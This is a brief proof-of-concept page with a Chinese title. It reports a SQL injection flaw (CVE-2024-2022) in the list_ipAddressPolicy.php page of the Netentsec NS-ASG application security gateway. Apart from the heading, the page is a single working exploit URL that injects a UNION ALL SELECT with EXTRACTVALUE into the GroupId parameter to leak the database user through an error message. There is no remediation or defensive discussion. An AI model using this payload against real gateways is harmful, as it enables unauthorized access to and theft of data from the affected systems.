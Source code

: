 ## 网康科技NS-ASG应用安全网关list_ipAddressPolicy.php存在SQL注入漏洞(CVE-2024-2022)


## poc
```
/admin/list_ipAddressPolicy.php?GroupId=-1+UNION+ALL+SELECT+EXTRACTVALUE(1,concat(0x7e,(select+user()),0x7e))
```
